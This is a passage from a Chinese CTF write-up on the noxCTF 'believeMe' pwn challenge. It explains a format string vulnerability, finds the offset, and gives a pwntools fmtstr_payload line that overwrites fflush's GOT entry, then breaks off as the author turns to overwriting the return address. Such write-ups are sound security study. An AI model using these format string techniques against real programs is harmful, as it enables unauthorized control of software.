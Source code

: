 ```yaml
---
layout: post
title:  "nox_CSAW部分pwn题解"
date:   2018-10-09 18:00:00
categories: WriteUp
tags: WriteUp PWN nox CSAW
---
```


* content
{:toc}

## 前言

暑假的时候遇到了一群一起学习安全的小伙伴，在他们的诱劝下，开始接触国外的CTF比赛，作为最菜的pwn选手就试着先打两场比赛试试水，结果发现国外比赛真有意思哎嘿。

本文首发于安恒网络空间安全讲武堂 http://url.cn/5Abhs


### NOXCTF

#### PWN—believeMe(378)

惯例先走一遍file+checksec检查
```bash
➜  believeMe file believeMe 
believeMe: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=03d2b6bcc0a0fdbab80a9852cab1d201437e7e30, not stripped
➜  believeMe checksec believeMe 
[*] '/home/Ep3ius/pwn/process/noxCTF2018/believeMe/believeMe'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

再简单的运行下程序看看程序是什么样的结构

```bash
➜  believeMe ./believeMe 
Someone told me that pwning makes noxāle...
But......... how ???? 
aaaa
aaaa%  
➜  believeMe
```
然后ida简单分析下，我们可以很直接的看到在main函数里有一个格式化字符串漏洞

```c
.text:080487CC ; 10:   printf(s);
.text:080487CC                 sub     esp, 0Ch
.text:080487CF                 lea     eax, [ebp+s]
.text:080487D2                 push    eax             ; format
.text:080487D3                 call    _printf
```

这里我本来以为只是简单的利用格式化字符串去修改fflush_got所以我先测出来fmt的偏移量为9

```bash
➜  believeMe ./believeMe 
Someone told me that pwning makes noxāle...
But......... how ???? 
aaaa%9$x
aaaa61616161%                                                         
➜  believeMe 
```

然后构造payload=fmtstr_payload(9,{fflush_got:noxflag_addr})想直接getflag，然后实际上没那么简单。调试过后发现fmtstr_payload不全，len(payload)输出检查后发现长度超了，稍微查了下pwntools文档的fmtstr部分，发现它默认是以hhn也就是单字节的形式去构造payload，如果以双字节或四字节的形式要加上write_size参数，这样payload的长度就不会超过40
```python
payload = fmtstr_payload(9,{fflush_got:noxFlag_addr},write_size='short')
```

然而当我们成功修改fflush_got为noxFlag的地址时会进入到一个死循环中，我们看一下noxFlag函数里面不难发现问题

```C
void __noreturn noxFlag()
{
  char i; // [esp+Bh] [ebp-Dh]
  FILE *stream; // [esp+Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  puts(s);
  fflush(stdout);//这里又调用了fflush函数，由于我们把fflush_got改成了noxFlag地址，这里相当递归调用noxFlag，形成死循环
  if ( stream )
  {
    for ( i = fgetc(stream); i != -1; i = fgetc(stream) )
    {
      putchar(i);
      fflush(stdout);
    }
    fflush(stdout);
    fclose(stream);
  }
  else
  {
    puts("Can't read file \n");
    fflush(stdout);
  }
  exit(0);
}
```

当时就卡在这里没绕出去，经过队友提醒能不能改return地址，才发现思路走偏了